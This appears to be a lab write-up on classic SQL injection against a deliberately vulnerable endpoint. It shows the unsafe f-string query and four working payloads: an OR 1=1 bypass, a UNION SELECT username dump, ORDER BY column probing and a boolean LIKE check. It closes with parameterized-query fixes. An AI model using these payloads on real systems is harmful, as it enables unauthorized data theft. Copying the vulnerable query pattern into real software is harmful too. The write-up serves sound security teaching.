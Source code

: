 🧨 Classic SQL Injection (Username Enumeration)
🎯 Objective

Exploit a vulnerable SQL query to extract user information from the database using unfiltered input in the classic form

🧠 Application Context

    Endpoint: /classic

    Backend Logic:

    query = f"SELECT * FROM users WHERE username = '{name}'"

🧪 Exploit Path
🔹 Step 1: Initial Test

Visit:  /classic

Submit:  ' OR 1=1--
✔️ This will bypass the username filter and return all users.

🔹 Step 2: Extracting All Usernames

Submit:  ' UNION SELECT 1, username, 3, 4, 5 FROM users--

Expected output (or partial DB dump):

('admin', ...)
('guest', ...)
('alice', ...)

🔹 Step 3: Trigger an Error for Manual DB Enumeration

Submit:  ' ORDER BY 5--
✔️ Helps discover the number of columns in the result set by triggering errors or confirming successful execution.

🔹 Step 4: Discover Specific User

Submit:  ' AND username LIKE 'admin'--
✔️ Boolean-based test to confirm a specific user's existence

🧰 Tools & Techniques

    SQL syntax testing (', --, UNION)

    Boolean logic exploitation (OR 1=1, AND 1=0)

    Column inference (ORDER BY, UNION SELECT)

    Error-based information leakage

    💡 Lessons Learned

    Even basic string injection can lead to full user enumeration

    Errors and query behavior reveal database structure

    Always sanitize input using parameterized queries

    ✅ Defensive Fixes

    Use prepared statements (e.g., cur.execute("SELECT * FROM users WHERE username = ?", (name,)))

    Disable verbose SQL errors in production

    Implement input validation and query whitelisting